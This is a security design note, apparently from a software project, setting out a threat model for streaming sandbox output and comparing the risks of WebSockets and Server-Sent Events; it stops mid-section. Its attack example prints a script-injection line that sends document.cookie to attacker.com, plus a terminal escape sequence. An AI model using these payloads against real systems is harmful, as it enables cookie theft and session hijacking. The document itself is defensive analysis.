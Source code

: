 # Security Considerations for Real-Time Output Streaming

## Overview

When implementing real-time monitoring of code execution processes, the communication channel itself becomes a potential attack vector. This document analyzes the security implications of different approaches.

## Threat Model

### Assumptions
- The code execution environment may be compromised by malicious user code
- A compromised container could attempt to exploit the monitoring channel
- The goal is to prevent compromise from propagating upstream to the API or frontend

### Attack Scenarios
1. **Output Injection**: Malicious code injects control sequences or payloads into stdout/stderr
2. **Channel Hijacking**: Compromised process attempts to take control of the communication channel
3. **Resource Exhaustion**: Flooding output to overwhelm monitoring systems
4. **Privilege Escalation**: Using the monitoring channel to gain higher privileges

## Communication Methods Analysis

### 1. WebSockets (Bidirectional) - HIGH RISK ⚠️

**Risks:**
- Persistent bidirectional channel provides maximum attack surface
- Compromised container can send commands upstream
- If API is compromised via WebSocket, attacker has persistent channel to frontend
- Difficult to implement proper request/response isolation
- Connection hijacking enables ongoing communication

**Attack Example:**
```python
# Malicious code in container
import sys
# Attempt to send control commands upstream
sys.stdout.write("\x1b]1337;RemoteHost=attacker.com\x07")
# Or inject JavaScript if output is rendered
sys.stdout.write("<script>fetch('http://attacker.com/steal?cookie='+document.cookie)</script>")
```

### 2. Server-Sent Events (Unidirectional) - MEDIUM RISK ⚠️

**Risks:**
- One-way channel limits but doesn't eliminate attacks
- Still vulnerable to payload injection
- Continuous stream makes sanitization challenging
- Can't receive commands but can still exfiltrate data
